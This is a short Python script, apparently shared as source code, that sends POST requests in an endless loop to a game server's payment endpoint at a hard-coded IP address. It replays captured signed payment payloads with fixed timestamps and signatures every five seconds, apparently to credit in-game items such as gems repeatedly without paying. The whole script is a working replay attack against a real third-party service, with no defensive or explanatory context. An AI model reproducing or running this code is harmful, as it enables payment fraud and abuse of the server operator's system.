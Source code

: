 import requests
import time
url = "http://124.220.188.190:9988/api/pay.php"
#gem
payload = 'account=ID001&time=1698089873&pcid=24546&price=100&servername=1&rid=10000277&sign=b69a1bbe4bd8c149e8f508b18ab893cb'
payload1 = 'account=ID19122001&time=1698092758&pcid=24546&price=100&servername=1&rid=10000275&sign=b340f668f5f5f68271ba5e3ed8809f6a'
#goi knvs troc
payloadkn = 'account=ID001&time=1698089873&pcid=24628&price=20&servername=1&rid=10000277&sign=b69a1bbe4bd8c149e8f508b18ab893cb'
payloadkn1 = 'account=ID19122001&time=1698092758&pcid=24628&price=20&servername=1&rid=10000275&sign=b340f668f5f5f68271ba5e3ed8809f6a'
#troc tim
payloadtr = 'account=ID001&time=1698089873&pcid=24629&price=5&servername=1&rid=10000277&sign=b69a1bbe4bd8c149e8f508b18ab893cb'
payloadtr1 = 'account=ID19122001&time=1698092758&pcid=24629&price=5&servername=1&rid=10000275&sign=b340f668f5f5f68271ba5e3ed8809f6a'
headers = {
  'Content-Type': 'application/x-www-form-urlencoded'
}
while True:
  #response = requests.request("POST", url, headers=headers, data=payload)
  #response = requests.request("POST", url, headers=headers, data=payload1)

  #response = requests.request("POST", url, headers=headers, data=payloadkn)
  #response = requests.request("POST", url, headers=headers, data=payloadkn1)

  response = requests.request("POST", url, headers=headers, data=payloadtr)
  response = requests.request("POST", url, headers=headers, data=payloadtr1)
  time.sleep(5)
